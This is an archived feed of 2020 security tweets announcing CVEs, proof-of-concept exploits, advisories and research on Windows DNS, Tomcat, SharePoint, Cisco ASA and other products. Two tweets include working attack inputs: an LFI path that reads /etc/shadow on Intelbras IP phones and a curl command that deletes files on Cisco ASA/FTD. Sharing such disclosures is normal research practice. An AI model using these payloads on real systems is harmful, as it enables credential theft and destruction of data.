</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1293249558768746496 _at Tue Aug 11 18:14:56 +0000 2020_**
<blockquote>
Windows Print Spooler Patch Bypass Re-Enables Persistent Backdoor. @HexKitchen details how the patch for CVE-2020-1048 was easily bypassed and looks at the new patch released today to fix it. https://t.co/ayeIQC0CQV
</blockquote>

* https://bit.ly/33Qh3go

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>118</code></td>
</tr></table>

---
# FlatL1ne
**https://twitter.com/FlatL1ne/status/1293209434345426945 _at Tue Aug 11 15:35:30 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit

https://t.co/lmFgh6v6Gu
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1293182603751694336 _at Tue Aug 11 13:48:53 +0000 2020_**
<blockquote>
🔥 Watch Out! A new critical #vBulletin zero-day RCE #vulnerability and its PoC exploits have been publicly disclosed, allowing attackers to bypass patch for an old RCE bug (CVE-2019-16759) and remotely compromise sites.

Details — https://t.co/961xiq1BqC

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2020/08/vBulletin-vulnerability-exploit.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---
# threatintelctr
**https://twitter.com/threatintelctr/status/1292871440589443072 _at Mon Aug 10 17:12:26 +0000 2020_**
<blockquote>
🚨 NEW: CVE-2020-7361 🚨 The EasyCorp ZenTao Pro application suffers from an OS command injection vulnerability in its '/pro/repo-create.html' component. After authenticating to the ZenTao dashboard, attackers may c... (click for more) Severity: HIGH https://t.co/3TZEFDBj6T
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13828

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1292839166565322754 _at Mon Aug 10 15:04:11 +0000 2020_**
<blockquote>
Yet another grep, faster than the previous ones. After ag and rg, meet ug: https://t.co/pWeo52GmjA
</blockquote>

* https://github.com/Genivia/ugrep

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---
# Anastasis_King
**https://twitter.com/Anastasis_King/status/1292173547130036225 _at Sat Aug 08 18:59:15 +0000 2020_**
<blockquote>
CVE-2019-7609 : Exploit Kibana RCE on right way by python2 scripts

https://t.co/dPeckuqxet
</blockquote>

* https://github.com/kisec/CVE-2019-7609

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# BleepinComputer
**https://twitter.com/BleepinComputer/status/1292022789059248128 _at Sat Aug 08 09:00:12 +0000 2020_**
<blockquote>
The FBI warns of Iranian hackers actively attempting to exploit vulnerable F5 Big-IP ADC devices unpatched against the CVE-2020-5902 unauthenticated remote code execution flaw - @serghei
https://t.co/rcwTyZnqE6
</blockquote>

* https://www.bleepingcomputer.com/news/security/fbi-iranian-hackers-trying-to-exploit-critical-f5-big-ip-flaw/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---
# threatintelctr
**https://twitter.com/threatintelctr/status/1291414386448326656 _at Thu Aug 06 16:42:37 +0000 2020_**
<blockquote>
🚨 NEW: CVE-2020-7361 🚨 The EasyCorp ZenTao Pro application suffers from an OS command injection vulnerability in its '/pro/repo-create.html' component. After authenticating to the ZenTao dashboard, attackers may c... (click for more)  https://t.co/3TZEFDBj6T
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13828

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# OPOSEC
**https://twitter.com/OPOSEC/status/1291328173368631301 _at Thu Aug 06 11:00:02 +0000 2020_**
<blockquote>
Microsoft Edge Remote Code Execution (CVE-2018-8495). https://t.co/8oZXOxBU6q PoC: https://t.co/EIR3NrC5vm #Security #244 (2018)
</blockquote>

* https://leucosite.com/Microsoft-Edge-RCE/
* https://github.com/kmkz/exploit/blob/master/CVE-2018-8495.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# mobilesecurity_
**https://twitter.com/mobilesecurity_/status/1291264621534490626 _at Thu Aug 06 06:47:30 +0000 2020_**
<blockquote>
Breaking Samsung's Root of Trust - Exploiting Samsung S10 Secure Boot
#MobileSecurity #AndroidSecurity 
#BlackHat2020 [SLIDES] by @Jeffxx_Chao 
https://t.co/SDqIfhDz8m https://t.co/UzSZxH5TDL
</blockquote>

* https://github.com/TrapaSecurity/presentations/raw/master/us-20-Chao-Breaking-Samsung's-Root-of-Trust-Exploiting-Samsung-Secure-Boot.pdf

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1291184302672158720 _at Thu Aug 06 01:28:21 +0000 2020_**
<blockquote>
CVE-2020-13886 0day INTELBRAS TELEFONE IP TIP200/200 LITE &amp; TIP 300 - Local File Include

[ Proof Of Concept ]
URL parameter -&gt;http://HOST/cgi-bin/cgiServer.exx?page=

LFI payload -&gt; ../../../../etc/shadow

https://t.co/fQEOI2WZsF https://t.co/ixlAj26tAM
</blockquote>

* https://github.com/lucxssouza/CVE-2020-13886

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>104</code></td>
</tr></table>

---
# maddiestone
**https://twitter.com/maddiestone/status/1291124059917266944 _at Wed Aug 05 21:28:58 +0000 2020_**
<blockquote>
Here are the slides from my @BlackHatEvents  talk "Reversing the Root: Identifying the Exploited Vulnerability in 0-days Used In-The-Wild".

https://t.co/k7nAYfAZeu https://t.co/wrC0VHol3f
</blockquote>

* https://github.com/maddiestone/ConPresentations/blob/master/BH2020.ReversingTheRoot.pdf

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>144</code></td>
<td>Favorites: <code>404</code></td>
</tr></table>

---
# threatintelctr
**https://twitter.com/threatintelctr/status/1291104799887200257 _at Wed Aug 05 20:12:26 +0000 2020_**
<blockquote>
🚨 NEW: CVE-2020-15467 🚨 The administrative interface of Cohesive Networks vns3:vpn appliances before version 4.11.1 is vulnerable to authenticated remote code execution leading to server compromise. Severity: HIGH https://t.co/4SAW7mcnqr
</blockquote>

* https://github.com/fireeye/Vulnerability-Disclosures/blob/master/FEYE-2020-0007/FEYE-2020-0007.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# behindbreach
**https://twitter.com/behindbreach/status/1290860109053284353 _at Wed Aug 05 04:00:07 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) - write-up and exploit https://t.co/YygbwhoXTd #vulnerability #collection #execution #cve_2020_9484 #apache #tomcat
</blockquote>

* https://behindthebreach.com/l/46

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>119</code></td>
</tr></table>

---
# peterjson
**https://twitter.com/peterjson/status/1290687541188767745 _at Tue Aug 04 16:34:24 +0000 2020_**
<blockquote>
I have just finished the recent IBM Websphere RCE PoC (CVE-2020-4450). It's a nice chain and after all I have learnt many things! https://t.co/JWRiiy7MEM
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---
# threatintelctr
**https://twitter.com/threatintelctr/status/1290651814971531266 _at Tue Aug 04 14:12:26 +0000 2020_**
<blockquote>
🚨 NEW: CVE-2020-15467 🚨 The administrative interface of Cohesive Networks vns3:vpn appliances before version 4.11.1 is vulnerable to authenticated remote code execution leading to server compromise. https://t.co/4SAW7lUMyT
</blockquote>

* https://github.com/fireeye/Vulnerability-Disclosures/blob/master/FEYE-2020-0007/FEYE-2020-0007.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1289705496266641408 _at Sat Aug 01 23:32:06 +0000 2020_**
<blockquote>
[CVE49] Microsoft Windows LNK Remote Code Execution Vulnerability - CVE-2020-1299  https://t.co/R1oLe81oUw  #Windows #Vulnerability #RCE #CVE #LNK #Infosec https://t.co/DTeuz9GZip
</blockquote>

* https://blog.vincss.net/2020/06/cve49-microsoft-windows-lnk-remote-code-execution-vuln-cve-2020-1299-eng.html

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---
# Immunityinc
**https://twitter.com/Immunityinc/status/1288868671272767496 _at Thu Jul 30 16:06:51 +0000 2020_**
<blockquote>
We are releasing advisories for two vulnerabilities Immunity Inc. found in Origin (Electronic Arts). Read more at:
https://t.co/5ETdalqJBp
https://t.co/c1A0897Wmm
</blockquote>

* https://github.com/immunityinc/Advisories/blob/master/2020/CVE-2020-13172.pdf
* https://github.com/immunityinc/Advisories/blob/master/2020/CVE-2020-15524.pdf

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
# gamozolabs
**https://twitter.com/gamozolabs/status/1288440436680306688 _at Wed Jul 29 11:45:12 +0000 2020_**
<blockquote>
What's it like to be inside AFL? We wrote a tool to find out! Much much more to come, but it generates random programs which report real-time information over shared memory, then over websockets to a visualization! https://t.co/wDoa1HX9sZ https://t.co/zpkZTYBLC1
</blockquote>

* https://github.com/gamozolabs/cookie_dough

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>384</code></td>
</tr></table>

---
# PentesterLab
**https://twitter.com/PentesterLab/status/1287981604787240960 _at Tue Jul 28 05:21:58 +0000 2020_**
<blockquote>
Two new videos are now available on how to exploit CVE-2020-8163 - A RCE in Ruby-on-Rails: 

https://t.co/BY9XZEnM3i
</blockquote>

* https://pentesterlab.com/exercises/CVE-2020-8163/videos

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1287374539022667776 _at Sun Jul 26 13:09:43 +0000 2020_**
<blockquote>
bddisasm - The Bitdefender disassembler (a fast, lightweight, x86/x64 instruction decoder. The project also features a fast, basic, x86/x64 instruction emulator, designed specifically to detect shellcode-like behavior) : https://t.co/ulCfuNyQWH
</blockquote>

* https://github.com/bitdefender/bddisasm

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1287351763511607296 _at Sun Jul 26 11:39:12 +0000 2020_**
<blockquote>
RT @maxpl0it: SIGRed (CVE-2020-1350) DoS proof-of-concept
https://t.co/Pu1i0vh0M4

Have fun!
</blockquote>

* https://github.com/maxpl0it/CVE-2020-1350-DoS

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>323</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1287334604446162945 _at Sun Jul 26 10:31:01 +0000 2020_**
<blockquote>
Offensive Security Exam Report Template in Markdown (for OSCP OSWE OSCE OSEE OSWP) : https://t.co/J9riCC8wjR
</blockquote>

* https://github.com/noraj/OSCP-Exam-Report-Template-Markdown

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>228</code></td>
<td>Favorites: <code>644</code></td>
</tr></table>

---
# _murks
**https://twitter.com/_murks/status/1287328429680074752 _at Sun Jul 26 10:06:29 +0000 2020_**
<blockquote>
Just found out @pwntester took a look at the Nexus Repository Manager vulnerability (CVE-2018-16621) @_schn31d4 and I reported and found a bypass for the fix (https://t.co/OW9I0DTVlv).  He also used CodeQL to perform a Variant Analysis and found more bugs: https://t.co/IQVip2qxM6
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2020-015-nxrm-sonatype
* https://securitylab.github.com/research/bean-validation-RCE

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---
# hoangkien_1020
**https://twitter.com/hoangkien_1020/status/1287206810395373570 _at Sun Jul 26 02:03:13 +0000 2020_**
<blockquote>
My CVE-2020-14321 PoC:
Course enrolments allowed privilege escalation from teacher role into manager role to RCE
# PoC: https://t.co/kyHEAzMZRE
# Blog: 
https://t.co/S5KT04huLM
# Video PoC : https://t.co/q2o3eWZN5z
# Author: HK
# Happy to read and research!
</blockquote>

* https://github.com/HoangKien1020/CVE-2020-14321
* https://hocvahoc.me/index.php/2020/07/25/tu-quyen-teacher-len-rce-nhu-the-nao-trong-moodlecve-2020-14321/
* https://vimeo.com/441698193

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1286971486352191488 _at Sat Jul 25 10:28:07 +0000 2020_**
<blockquote>
Never miss a public exploit. Get an email whenever an &lt;LPE/RCE/AuthBypass/any_other&gt; exploit is uploaded for &lt;insert any product you are watching out for&gt; on exploit-db. https://t.co/LcyA1B5WpO
</blockquote>

* http://github.com/bad-bit/mailpl0it

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1286868630194528256 _at Sat Jul 25 03:39:24 +0000 2020_**
<blockquote>
RT @aboul3la: Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

E…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# aboul3la
**https://twitter.com/aboul3la/status/1286809567989575685 _at Fri Jul 24 23:44:43 +0000 2020_**
<blockquote>
Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

Example to delete logo file "/+CSCOU+/csco_logo.gif".

POC:
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://target/+CSCOE+/session_password.html https://t.co/BFbDAI9mX2
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>892</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1286574848374906881 _at Fri Jul 24 08:12:01 +0000 2020_**
<blockquote>
RT @Cognosec: Our researcher wrote a NMAP script for CVE-2020-3452. Patch your Cisco (ASA/FTD) ASAP.
https://t.co/HO1r1QvW8F
#infosec #cisc…
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-3452.nse

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# scr1ptKiddie
**https://twitter.com/scr1ptKiddie/status/1286419238534643712 _at Thu Jul 23 21:53:41 +0000 2020_**
<blockquote>
I just released my #0day research on the Nimbus protocol. Including exploit code for CVE-2020-8010, CVE-2020-8011, and CVE-2020-8012. Check it out here:

https://t.co/ZJntzOKK7H
</blockquote>

* https://github.com/wetw0rk/CA-UIM-Nimbus-Research

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---
# 42Sz40
**https://twitter.com/42Sz40/status/1286305631788576774 _at Thu Jul 23 14:22:15 +0000 2020_**
<blockquote>
@francibosco @neirajones @ZeljkaZorz @RigneySec @Hacker_Combat 
CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability.
https://t.co/l5Si7jSy0Q

CVE-2020-1350.
a0205ea 5 days ago 
https://t.co/R1RYfkYPZn
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://github.com/T13nn3s/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# 42Sz40
**https://twitter.com/42Sz40/status/1286305488821510145 _at Thu Jul 23 14:21:41 +0000 2020_**
<blockquote>
@NakedSecurity @troyhunt @DarkReading @reach2ratan @ZDNet @gcluley
CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability.
https://t.co/l5Si7jSy0Q

CVE-2020-1350.
a0205ea 5 days ago 
https://t.co/R1RYfkYPZn
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://github.com/T13nn3s/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# 42Sz40
**https://twitter.com/42Sz40/status/1286303997679329287 _at Thu Jul 23 14:15:46 +0000 2020_**
<blockquote>
#programming #programmer #Python #javascript #NodeJS @Anon_ITA @elimone @PhishFindR @javascriptflx
CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability.
https://t.co/l5Si7jSy0Q

CVE-2020-1350.
a0205ea 5 days ago 
https://t.co/R1RYfkYPZn
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://github.com/T13nn3s/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# Cognosec
**https://twitter.com/Cognosec/status/1286178945159901185 _at Thu Jul 23 05:58:51 +0000 2020_**
<blockquote>
Our researcher wrote a NMAP script for CVE-2020-3452. Patch your Cisco (ASA/FTD) ASAP.
https://t.co/HO1r1QvW8F
#infosec #cisco https://t.co/CBpMsjwzGk
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-3452.nse

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---
# bonsaiviking
**https://twitter.com/bonsaiviking/status/1285962390442475520 _at Wed Jul 22 15:38:20 +0000 2020_**
<blockquote>
Periodic reminder that Nmap 7.40 and newer have a super-fast UDP scan mode that gives similar results to masscan/unicornscan and other asynchronous scanners: nmap -sU --defeat-icmp-ratelimit
https://t.co/NABX3MC5VU
</blockquote>

* https://github.com/nmap/nmap/commit/3f1ad0742e04cd994435adfe46e24d65222e02eb

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>183</code></td>
<td>Favorites: <code>513</code></td>
</tr></table>

---
# ducnt_
**https://twitter.com/ducnt_/status/1285286454910844928 _at Mon Jul 20 18:52:24 +0000 2020_**
<blockquote>
So, here is a gift for you about CVE-2020-6287 SAP RCE exploit :). 
Only user create, no more administrator permission set. 😄

https://t.co/9eXHQF2x3u https://t.co/W5Gp2tEhBI
</blockquote>

* https://github.com/duc-nt/CVE-2020-6287-exploit

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>199</code></td>
<td>Favorites: <code>469</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1285257596501295104 _at Mon Jul 20 16:57:44 +0000 2020_**
<blockquote>
Details and PoC released for a critical remote code execution #vulnerability (CVE-2020-1147) affecting SharePoint Servers that #Microsoft patched just last week with the release of July 2020 Patch Tuesday updates.

https://t.co/LpY241r8XE

via @sourceincite
</blockquote>

* https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>168</code></td>
<td>Favorites: <code>275</code></td>
</tr></table>

---
# steventseeley
**https://twitter.com/steventseeley/status/1285225452454502405 _at Mon Jul 20 14:50:00 +0000 2020_**
<blockquote>
SharePoint and Pwn :: Remote Code Execution Against SharePoint Server Abusing DataSet: https://t.co/NiUeuy8oZu

CVE-2020-1147 full analysis and exploit :-&gt;
</blockquote>

* https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>319</code></td>
<td>Favorites: <code>605</code></td>
</tr></table>

---
# h4ms1k
**https://twitter.com/h4ms1k/status/1284789414846246913 _at Sun Jul 19 09:57:21 +0000 2020_**
<blockquote>
I have developed a POC for CVE-2020-8163 that allows blind remote code execution on rails &lt; 5.0.1 and &lt; 4.2.11.2
https://t.co/j5W7IrM7le
</blockquote>

* https://github.com/h4ms1k/CVE-2020-8163

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>6</code></td>
</tr></table>

---
# BlackBerry
**https://twitter.com/BlackBerry/status/1284488415753277442 _at Sat Jul 18 14:01:17 +0000 2020_**
<blockquote>
Get BlackBerry's detailed analysis of the F5 Big-IP TMUI RCE vulnerability (CVE-2020-5902): https://t.co/Fr0KqHY8GS https://t.co/Ht9Qh0es85
</blockquote>

* https://bit.ly/32vMXhH

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# NSACyber
**https://twitter.com/NSACyber/status/1284103583110234113 _at Fri Jul 17 12:32:06 +0000 2020_**
<blockquote>
CVE-2020-1350 represents significant risk to Windows DNS servers. #Patch or apply the mitigation steps today, you should expect adversaries are hard at work writing exploits for this #vulnerability. Check out our detailed guidance: https://t.co/KUZT1UMEHQ https://t.co/Nlnu4E4ntg
</blockquote>

* https://media.defense.gov/2020/Jul/16/2002458198/-1/-1/0/CSA_CVE20201350-V_1_0%20-%20COPY.PDF

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>148</code></td>
<td>Favorites: <code>228</code></td>
</tr></table>

---
# cry__pto
**https://twitter.com/cry__pto/status/1284086538343714817 _at Fri Jul 17 11:24:22 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit:
https://t.co/LuABYgsYrI 
#Pentesting #Hacking #bugbountytips #RedTeam
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>237</code></td>
<td>Favorites: <code>506</code></td>
</tr></table>

---
# LukasStefanko
**https://twitter.com/LukasStefanko/status/1284033488312832001 _at Fri Jul 17 07:53:34 +0000 2020_**
<blockquote>
0-click RCE via MMS exploit for Samsung's Android OS versions O(8.x), P(9.0) and Q(10.0) #Fuzzing CVE-2020-8899
https://t.co/Qeyq7ACjoN
Demo: https://t.co/VL7eL03SrD https://t.co/ooOGpchF6c
</blockquote>

* https://googleprojectzero.blogspot.com/2020/07/mms-exploit-part-1-introduction-to-qmage.html
* https://youtu.be/ZQnb8kRMkHg

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1283702592879632385 _at Thu Jul 16 09:58:42 +0000 2020_**
<blockquote>
CVE-2020-1300: Remote Code Execution Through Microsoft Windows Cab Files 
https://t.co/IhyNf2OVHf   #Pentesting #RCE #Window #Vulnerability #Infosec https://t.co/zdFfvIzsHs
</blockquote>

* https://www.zerodayinitiative.com/blog/2020/7/8/cve-2020-1300-remote-code-execution-through-microsoft-windows-cab-files

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>116</code></td>
</tr></table>

---
# 4w4r44
**https://twitter.com/4w4r44/status/1283595354995187712 _at Thu Jul 16 02:52:35 +0000 2020_**
<blockquote>
Proof-of-Concept (PoC) script to exploit SIGRed (CVE-2020-1350). Achieves Domain Admin on Domain Controllers running Windows Server 2000 up to Windows Server 2019.

https://t.co/Lg20kqAVuS

#exploit #rce
</blockquote>

* https://github.com/ZephrFish/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# maxpl0it
**https://twitter.com/maxpl0it/status/1283537179365564417 _at Wed Jul 15 23:01:25 +0000 2020_**
<blockquote>
SIGRed (CVE-2020-1350) DoS proof-of-concept
https://t.co/Pu1i0vh0M4

Have fun!
</blockquote>

* https://github.com/maxpl0it/CVE-2020-1350-DoS

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>323</code></td>
<td>Favorites: <code>634</code></td>
</tr></table>

---
# arocse
**https://twitter.com/arocse/status/1283486366370877442 _at Wed Jul 15 19:39:30 +0000 2020_**
<blockquote>
Vulnerabilidad crítica en los DNS de Windows, CVE-2020-1350: https://t.co/J4eCuQcEMG CVSS 10.0 (máximo). RCE wormable, con el agravante de que el 99% d los DNS son los DC. 1 PC, 1 correo malicioso, 1 exploit  Game Over. 
#DNS
#CVE20201350 exploit released
 https://t.co/T0SuEQknhA
</blockquote>

* https://support.microsoft.com/es-es/help/4569509/windows-dns-server-remote-code-execution-vulnerability
* https://github.com/ZephrFish/CVE-2020-1350

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# maxpl0it
**https://twitter.com/maxpl0it/status/1283471692006920193 _at Wed Jul 15 18:41:11 +0000 2020_**
<blockquote>
CVE-2020-1350 DoS

The hardest part of this was setting up domains! https://t.co/Aut92cJB5o
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>136</code></td>
<td>Favorites: <code>414</code></td>
</tr></table>

---
# straight_blast
**https://twitter.com/straight_blast/status/1283466024109527040 _at Wed Jul 15 18:18:40 +0000 2020_**
<blockquote>
I found some bugs on Cisco SD-WAN vManage:
CVE-2020-3387 (Remote Code Execution) 
CVE-2020-3381 (Directory Traversal) 
CVE-2020-3406 (XSS) 
CVE-2020-3405 (XXE) 
CVE-2020-3437 (Info Disclosure)
CVE-2020-3401 (Path Traversal)
https://t.co/vzsn2ID5aM
</blockquote>

* https://tools.cisco.com/security/center/publicationListing.x?product=Cisco&keyword=vManage&title=vManage&last_published=2020%20Jul&sort=-day_sir#~Vulnerabilities

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# CyberWarship
**https://twitter.com/CyberWarship/status/1283431773137965056 _at Wed Jul 15 16:02:34 +0000 2020_**
<blockquote>
